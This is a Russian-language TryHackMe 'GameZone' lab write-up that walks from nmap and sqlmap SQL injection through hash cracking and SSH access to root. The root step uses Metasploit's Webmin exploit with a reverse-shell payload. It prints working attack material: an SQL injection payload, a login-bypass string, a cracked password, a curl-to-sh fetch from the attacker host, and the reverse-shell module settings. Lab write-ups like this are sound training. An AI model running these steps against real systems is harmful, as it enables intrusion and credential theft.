


# TryHackMe - Win Easy - GameZone

📅 Дата: 2025-07-04  
🧠 Сложность: Easy  
💻 IP-адрес: 10.10.220.157  

---

## Sugar

```bash
nmap_ctf() {
  local ip=$1
  sudo nmap -sS -p- -n --max-parallelism 100 --min-rate 1000 -v -oN nmap-sS.txt $ip && nmap -sT -Pn -sV -T4 -A -v -p "$(grep -oP \"^[0-9]+(?=/tcp\s+open)\" nmap-sS.txt | sort -n | paste -sd \",\")" -oN nmap-sV.txt $ip
}
```


## 🔍 Сканирование

```bash
export ip=10.10.220.157 && nmap_ctf $ip
```

### nmap:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Game Zone
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (96%), Linux 5.4 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Sony Android TV (Android 5.0) (93%), Android 5.0 - 6.0.1 (Linux 3.4) (93%), Android 5.1 (93%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.010 days (since Fri Jul  4 21:26:28 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


### sqlmap
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - GameZone/scans]
└─$ sqlmap -u http://10.10.220.157/index.php --method POST --data "username=*&password=pass&x=14&y=12" --dbms=mysql --technique=BT  --random-agent --flush-session --dbs
sqlmap identified the following injection point(s) with a total of 40 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=' AND (SELECT 2830 FROM (SELECT(SLEEP(5)))TUir) AND 'rgkV'='rgkV&password=pass&x=14&y=12
---
available databases [5]:
[*] db
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

---

## 🕵️ Enumeration

Обход аутентификации при
login [' OR true -- -]
pass  [' OR true -- -]

Далее дамп при помощи sqlmap
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - GameZone/exploits]
└─$ sqlmap -r post.txt --dbms=mysql -D db -T users --dump 
---
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
```


## 📂 Получение доступа

Сохраняю hash
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - GameZone/exploits]
└─$ cat hash.txt           
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```

Запускаю hashcat
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - GameZone/exploits]
└─$ hashcat -m 1400 -a 0  hash.txt /media/sf_Exchange/Dictionaries/rockyou.txt

┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - GameZone/exploits]
└─$ hashcat -m 1400 -a 0  hash.txt --show                                     
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14:videogamer124
```

Получаю ssh
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - GameZone/exploits]
└─$ ssh agent47@10.10.220.157             
The authenticity of host '10.10.220.157 (10.10.220.157)' can't be established.
ED25519 key fingerprint is SHA256:CyJgMM67uFKDbNbKyUM0DexcI+LWun63SGLfBvqQcLA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.220.157' (ED25519) to the list of known hosts.
agent47@10.10.220.157's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$ pwd
/home/agent47
agent47@gamezone:~$ ls
user.txt
agent47@gamezone:~$ cat user.txt 
649ac17b1480ac13ef1e4fa579dac95c
```


## ⚙️ Привилегии

Вывожу информацию о текущих сетевых соединениях, сокетах и открытых портах
```bash
agent47@gamezone:~$ ss -tulpn
Netid  State      Recv-Q Send-Q         Local Address:Port                        Peer Address:Port              
udp    UNCONN     0      0                          *:10000                                  *:*                  
udp    UNCONN     0      0                          *:68                                     *:*                  
tcp    LISTEN     0      80                 127.0.0.1:3306                                   *:*                  
tcp    LISTEN     0      128                        *:10000                                  *:*                  
tcp    LISTEN     0      128                        *:22                                     *:*                  
tcp    LISTEN     0      128                       :::80                                    :::*                  
tcp    LISTEN     0      128                       :::22                                    :::*
```

Скачиваю на атакующую машину LinPEAS.sh, запускаю сервер
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - GameZone/exploits]
└─$ wget https://github.com/peass-ng/PEASS-ng/releases/download/20250701-bdcab634/linpeas.sh

┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - GameZone/exploits]
└─$ ls
hash.txt  linpeas.sh  post.txt
                                                                                                                   
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - GameZone/exploits]
└─$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

Проверяю наличие curl и sh на жертве и запускаю linpeas.sh
```bash
agent47@gamezone:~$ which curl
/usr/bin/curl
agent47@gamezone:~$ which sh
/bin/sh
agent47@gamezone:~$ curl 10.21.104.16:8888/linpeas.sh | sh
```

В задании говорилось, что можем посмотреть iptables rules, но linpeas говорит, что не можем посмотреть настройки файервола и iptables  


В целом, есть много других векторов, помимо предложенных в задании, например:
```bash
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                 
                      ╚════════════════════════════════════╝                                                       
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                    
strings Not Found                                                                                                  
ICMP is not accessible                                                                                             
-rwsr-xr-x 1 root root 39K May 16  2017 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 53K May 16  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                        -rwsr-xr-x 1 root root 49K May 16  2017 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 23K Jan 15  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)/Generic_CVE-2021-4034                                                                                
-rwsr-sr-x 1 daemon daemon 51K Jan 14  2016 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 134K Jul  4  2017 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-sr-x 1 root root 97K Jan 29  2019 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)                                                                             
-rwsr-xr-x 1 root root 139K Jan 28  2017 /bin/ntfs-3g  --->  Debian9/8/7/Ubuntu/Gentoo/others/Ubuntu_Server_16.10_and_others(02-2017)                                                                                         -rwsr-xr-x 1 root root 27K May 16  2018 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 40K May 16  2018 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8

╔══════════╣ SGID
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                    
-rwxr-sr-x 1 root utmp 425K Feb  7  2016 /usr/bin/screen  --->  GNU_Screen_4.5.0
-rwsr-sr-x 1 daemon daemon 51K Jan 14  2016 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-sr-x 1 root root 97K Jan 29  2019 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304) 
```

Настраиваю SSH-туннель с пробросом порта
```bash
ssh -L 10000:localhost:10000 agent47@$ip
```
 - ssh — запускает SSH-клиент.
 - -L 10000:localhost:10000 — опция проброса порта (Local Forwarding) (-L 7777:localhost:10000, если 10000 у меня занят).
 - agent47@$ip — имя пользователя (agent47) и IP-адрес сервера ($ip).



metasploit
```bash
msf6 > search webmin

Matching Modules
================

   #   Name                                           Disclosure Date  Rank       Check  Description
   -   ----                                           ---------------  ----       -----  -----------
   0   exploit/unix/webapp/webmin_show_cgi_exec       2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1   auxiliary/admin/webmin/file_disclosure         2006-06-30       normal     No     Webmin File Disclosure
   2   exploit/linux/http/webmin_file_manager_rce     2022-02-26       excellent  Yes    Webmin File Manager RCE
   3   exploit/linux/http/webmin_package_updates_rce  2022-07-26       excellent  Yes    Webmin Package Updates RCE
   4     \_ target: Unix In-Memory                    .                .          .      .
   5     \_ target: Linux Dropper (x86 & x64)         .                .          .      .
   6     \_ target: Linux Dropper (ARM64)             .                .          .      .
   7   exploit/linux/http/webmin_packageup_rce        2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   8   exploit/unix/webapp/webmin_upload_exec         2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   9   auxiliary/admin/webmin/edit_html_fileaccess    2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   10  exploit/linux/http/webmin_backdoor             2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   11    \_ target: Automatic (Unix In-Memory)        .                .          .      .
   12    \_ target: Automatic (Linux Dropper)         .                .          .      .


Interact with a module by name or index. For example info 12, use 12 or use exploit/linux/http/webmin_backdoor
After interacting with a module you can manually set a TARGET with set TARGET 'Automatic (Linux Dropper)'

msf6 > use 0
```

```bash
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RHOST localhost
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PASSWORD videogamer124
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set USERNAME agent47
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set SSL false
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set payload cmd/unix/reverse
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set lhost 10.21.104.16
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  videogamer124    yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    localhost        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                        /basics/using-metasploit.html
   RPORT     10000            yes       The target port (TCP)
   SSL       false            yes       Use SSL
   USERNAME  agent47          yes       Webmin Username
   VHOST                      no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.21.104.16     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580

msf6 exploit(unix/webapp/webmin_show_cgi_exec) > run
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > sessions -i 2
[*] Starting interaction with 2...


Shell Banner:
bxAzbHi4xawTvV4T
-----
          
whoami
root
```


## 🏁 Флаги

- User flag: 649ac17b1480ac13ef1e4fa579dac95c 
- Root flag: a4b945830144bdd71908d12d902adeee 

---
